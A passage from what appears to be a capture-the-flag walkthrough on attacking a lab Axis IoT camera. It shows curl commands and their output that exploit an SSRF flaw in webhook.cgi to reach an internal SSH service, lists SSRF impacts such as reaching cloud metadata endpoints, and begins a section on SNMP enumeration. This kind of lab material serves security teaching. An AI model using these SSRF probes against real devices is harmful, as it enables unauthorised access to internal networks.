 ### SSRF (Server-Side Request Forgery)

```bash
# Test webhook.cgi for SSRF vulnerability
# Why: Webhooks often make server-side requests
curl "http://192.168.1.132/axis-cgi/webhook.cgi"
```

**Output:**
```
Error: Missing required parameter 'url'
```

```bash
# Test with external URL
curl "http://192.168.1.132/axis-cgi/webhook.cgi?url=http://example.com"
```

**Output:**
```
Webhook called successfully
Response: <!doctype html><html><head><title>Example Domain...
```

```bash
# Exploit SSRF to access internal services
# Why: SSRF bypasses firewall rules
curl "http://192.168.1.132/axis-cgi/webhook.cgi?url=http://127.0.0.1:22"
```

**Output:**
```
Webhook called successfully
Response: SSH-2.0-OpenSSH_7.4
Internal SSH service flag: FLAG{ELENDIL66222658}
```

> 🏁 **FLAG #7 FOUND!**
> **Flag**: FLAG{E***********8}
> **Learning Objective**: SSRF exploitation
> **OWASP IoT**: #3 - Insecure Ecosystem Interfaces

**SSRF Impact:**
- Access internal services
- Bypass firewall rules
- Port scanning internal network
- Access cloud metadata endpoints

---

## Phase 3: Service Exploitation

### SNMP Enumeration (Port 161/UDP)

#### Why SNMP is Critical for IoT
SNMP (Simple Network Management Protocol) is widely used in IoT devices for monitoring. It's often vulnerable because:
- Default community strings are rarely changed
- Version 1/2c transmit in plaintext
- Can reveal extensive system information
- Sometimes allows configuration changes
